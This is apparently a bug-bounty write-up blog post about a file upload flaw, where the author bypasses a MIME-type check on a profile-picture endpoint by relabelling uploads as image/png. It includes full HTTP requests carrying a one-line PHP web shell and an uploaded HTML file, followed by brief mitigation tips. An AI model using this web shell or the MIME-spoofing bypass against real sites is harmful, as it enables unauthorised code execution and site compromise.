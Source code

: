 ```yaml
---
title : The cod caper
description : Updating the mime type of the file leads to file upload vulnerability
slug : file-upload-vdp-01
date : 2024-05-28 00:00:00+0000
image : cover.png
categories :
    - Bug Hunting
    - File upload vulerability
tags :
    - writeup
weight : 1
---
```


## Overview
I was testing an application which is used for `X` purpose. It has a dashboard and you can upload images which get's stored in the same server. 
Lately I have been researching about file upload vulnerabilites while I tried the same bug on the Target's from Hackerone usually they store the file over the s3 bucket or they remove the extension of the file so I was bit confused about How to exploit the web appilication using file upload vulnerability, As a result I started learning over portswigger and completed the file upload module.


## Back to the target

As I logged into the web application there was a dashboard and it has a general setting option.
![Dashboard](dashboard.png)

I have recently updated the profile picture so this time I want to upload a malicious file such as php code.

The request looks something like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 274
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.php"
Content-Type: application/x-php

<?php echo system($_GET["command"]); ?>

-----------------------------25156492452924238624110306810--

```

Notice the **Content-Type: application/x-php** ?

Now see check the response down which I received after sending this request.

```
HTTP/2 500 Internal Server Error
Date: Tue, 28 May 2024 15:24:12 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 44
X-Powered-By: Express
Etag: W/"2c-BUK5kJEdgVBEC0ZxSqwoL+oPm/Y"
Cf-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=DaNl%2FKe7pd5G4X57ksNbkdCUiboT%2FmLC%2Fu4KI%2FNo1MuI1Cj9wVuKEX6hr1qv6robRYutAGpk%2BdqMO%2BPqjPHQj1L%2FfxrAG27x95GOly%2BUwURUHH%2BY%2F4Dxhlv8KuQ01D4V%2FQpXSg%3D%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Alt-Svc: h3=":443"; ma=86400
Vary: Accept-Encoding
Server: cloudflare
Cf-Ray: 88af400ed8a54dce-SIN

{"message":"MimeType or size doesn't match"}
```

## Updating MimeType is like putting a mask 

Notice the **message** ? It sayes **MimeType or size doesn't match**

As I got this message as the response I update the **Content-Type:**
Previously **Content-Type: application/x-php**
Currently  **Content-Type: image/png**
![MimeTypeChange](mime-type-update.png)

I sen't the request and go this beautiful message **{"message":"Profile picture updated"}

After getting this response I checked the dashboard again and it seems like something worng has happend.
![Dashboard](profile-php-loaded.png)

I checked the html code using inspect tool provided by firefox and decoded the url
![htmlCode](html-code-image.png)
![Decode](url-decoder.png)

I visited the decoded url and found out that the server was not running apache server and my php file didn't run instead it got downloaded.
![SadPHPfileGotDownloaded](get-file-php.png)

## Changes are important

Now as the server is not serving php server I decided to go with basic exploitation such as **.html**
I followed the same process as above but this time I uploaded .html file.


The request looks like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 266
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.html"
Content-Type: image/png

<h1>0xtheM7 was here</h1>

-----------------------------25156492452924238624110306810--

```

## Exploit
I sent the requested checked the html code with inspect tool decoded the url and boom .html file was loading without any issue.

![HTMLdeocde](html-url-decode.png)
![HTMLRUN](file-uploaded.png)

And we are able to run our code over the server which opens up the door to run different malicious scripts and eventually get the REC or diiferent bug such as XSS.

### How to make file upload secure
1. Check the extension of the file
2. Check the diamension of the file 
3. Don't file to the server withou checking it
